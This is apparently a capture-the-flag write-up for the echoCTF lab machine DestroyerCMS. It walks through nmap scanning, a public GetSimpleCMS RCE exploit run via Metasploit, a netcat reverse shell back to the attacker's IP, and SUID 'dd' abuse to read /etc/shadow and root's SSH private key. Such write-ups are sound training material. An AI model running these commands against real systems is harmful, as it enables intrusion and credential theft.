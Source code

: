 ```yaml
---
description: >-
  DestroyerCMS echoCTF Machine
title: DestroyerCMS (Intermediate)                # Add title here
date: 2025-01-23 08:00:00 -0600                           # Change the date to match completion date
categories: [echoCTF, Intermediate]                     # Change Templates to Writeup
tags: []     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: true                                    # Change this to true
image: /assets/img/icons/Destroyercms.png                # Add infocard image here for post preview image
---
```

##### Host entries
```bash
10.0.160.222    destroyercms.echocity-f.com
```

### Content

-   GetSimpleCMS RCE exploit
-   SUID privilege escalation

### Reconnaissance

Initial reconnaissance for TCP ports
```bash
# Nmap 7.94SVN scan initiated Thu Jan 23 23:31:07 2025 as: nmap -p- -sS --open --min-rate 500 -Pn -n -vvvv -oG allPorts 10.0.160.222
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.0.160.222 ()   Status: Up
Host: 10.0.160.222 ()   Ports: 22/open/tcp//ssh///, 80/open/tcp//http///
# Nmap done at Thu Jan 23 23:34:40 2025 -- 1 IP address (1 host up) scanned in 212.81 seconds
```

Services and Versions running:
```bash
# Nmap 7.94SVN scan initiated Thu Jan 23 23:36:49 2025 as: nmap -p22,80 -sCV -n -Pn -vvvv -oN targeted 10.0.160.222
Nmap scan report for 10.0.160.222
Host is up, received user-set (0.17s latency).
Scanned at 2025-01-23 23:36:50 EST for 42s

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   256 59:f2:44:81:7e:39:44:a2:74:78:01:f4:41:9d:3c:32 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHrsjVfK8kJ4w0XD3dHLYJmvvzVETjkYlbeoYVFk8aHpq9fngAgZvUDDnDekezCzkEP0yYOq4NIP1/mGsLFQ/G4=
|   256 41:6c:06:38:b6:c4:81:32:3a:da:93:34:8e:5e:52:9b (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBcNlnBiNe1SHe160w0K6u9YfowdzTrYEeVIYZHKyZ+7
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.61 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Welcome to GetSimple! - simple
| http-robots.txt: 1 disallowed entry 
|_/admin/
|_http-server-header: Apache/2.4.61 (Debian)
```

### Exploitation

Checking service HTTP on port 80 I discovered that there is a page that is not shown correctly, so I hover my mouse on top of the "Home" hyperlink to check if there is a host that is not being recognized: 
![](/assets/img/Pasted-image-20250123223859.png)

So, let's add it to the hosts file:
```bash
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
::1             localhost ip6-localhost ip6-loopback
ff02::1         ip6-allnodes
ff02::2         ip6-allrouters


10.0.160.222    destroyercms.echocity-f.com
```

Finally, I can see the full page with all the visual content:
![](/assets/img/Pasted-image-20250123224310.png)

Searching for this GetSimple CMS I found a public [RCE exploit](https://www.exploit-db.com/exploits/51475) that is easily exploited via metasploit:

![](/assets/img/Pasted-image-20250123224647.png)

After setting all the details, a meterpreter session is opened:

![](/assets/img/Pasted-image-20250123224824.png)

Note.- It is possibl to start a normal shell with command `shell` in meterpreter and using `nc`

```bash
meterpreter > shell
Process 183 created.
Channel 0 created.

nc -c bash 10.10.5.122 2345
```

### Privilege Escalation

By running looking for SUID binaries we identify that there is a SUID binary `dd` that has special privilege flag:
```bash
www-data@destroyercms:/tmp$ find / -perm -4000 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/sudo
/bin/su
/bin/umount
/bin/dd
/bin/mount
```

This binary has an special entry in [GTFObin](https://gtfobins.github.io/gtfobins/dd/) which allows an user to read and write files:

![](/assets/img/Pasted-image-20250123231808.png)

I then proceed to read the `/etc/shadow` file to verify if this is correct, and surprise I can read the file:
```bash
www-data@destroyercms:/tmp$ /bin/dd if=/etc/shadow
root:*:19458:0:99999:7:::
daemon:*:19458:0:99999:7:::
bin:*:19458:0:99999:7:::
sys:*:19458:0:99999:7:::
sync:*:19458:0:99999:7:::
games:*:19458:0:99999:7:::
man:*:19458:0:99999:7:::
lp:*:19458:0:99999:7:::
mail:*:19458:0:99999:7:::
news:*:19458:0:99999:7:::
uucp:*:19458:0:99999:7:::
proxy:*:19458:0:99999:7:::
www-data:*:19458:0:99999:7:::
backup:*:19458:0:99999:7:::
list:*:19458:0:99999:7:::
irc:*:19458:0:99999:7:::
gnats:*:19458:0:99999:7:::
nobody:*:19458:0:99999:7:::
_apt:*:19458:0:99999:7:::
mysql:!:19965:0:99999:7:::
sshd:*:19965:0:99999:7:::
ETSCTF:ETSCTF_<REDACTED>:19965:0:99999:7:::
```

This means that we can read files within /root directory, such as `/root/.ssh/id_rsa`:
```bash
www-data@destroyercms:/tmp$ /bin/dd if=/root/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
<REDACTED>
```

Then we can save this id_rsa private key to access via ssh (don't forget chmod 600):
```bash
└─$ ssh -i id_rsa root@10.0.160.222  
The authenticity of host '10.0.160.222 (10.0.160.222)' can't be established.
ED25519 key fingerprint is SHA256:qPvHgmIzb2YH68N6uMkwoHTkCXjfKLqBYeuEnUc5FZo.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
root@destroyercms:~#
```

### Post Exploitation
Finally, read the flag on /root directory:
```bash
root@destroyercms:~# ls
ETSCTF_<REDACTED>
```

### Credentials
Find id_rsa using dd binary with SUID


### Notes

-   Always look for public exploits on CMS specially those that are verified and have metasploit PoC
-   Look for SUID binaries, privilege escalation simple commands are key (if not, use linpeas.sh)

### References



